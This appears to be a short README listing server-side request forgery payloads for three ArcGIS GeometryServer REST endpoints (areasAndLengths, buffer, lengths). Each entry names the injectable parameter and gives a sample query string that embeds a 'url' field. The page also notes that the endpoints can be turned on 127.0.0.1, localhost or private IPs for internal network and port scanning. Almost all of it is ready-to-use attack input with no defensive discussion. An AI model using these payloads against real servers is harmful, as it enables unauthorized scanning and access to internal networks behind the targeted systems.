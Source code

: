 Note: The paths may slightl vary from target to target so adjust them as needed. Each endpoint can be leveraged for internal network scan/internal port scan by using `http://127.0.0.1:25` or `http://localhost:25` or `http://<private_ip>`.

## 1.
Endpoint: `Utilities/Geometry/GeometryServer/areasAndLengths`

Parameter: `polygons`

Sample payload: `sr=102009&polygons={"url":"http://example.com"}&lengthUnit=9035&areaUnit=%7B%22areaUnit%22:%22esriAcres%22%7D&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/areas-and-lengths/

## 2. 
Endpoint: `/Utilities/Geometry/GeometryServer/buffer`

Parameter: `geometries`

Sample payload: `?geometries={"url":"http://example.com"}&inSR=4326&outSR=4326&bufferSR=3857&distances=1000&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/buffer/

## 3. 
Endpoint: `/Utilities/Geometry/GeometryServer/lengths`

Parameter: `polylines`

Sample payload: `sr=4269&polylines={"url":"http://example.com"}&lengthUnit=9036&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/lengths/

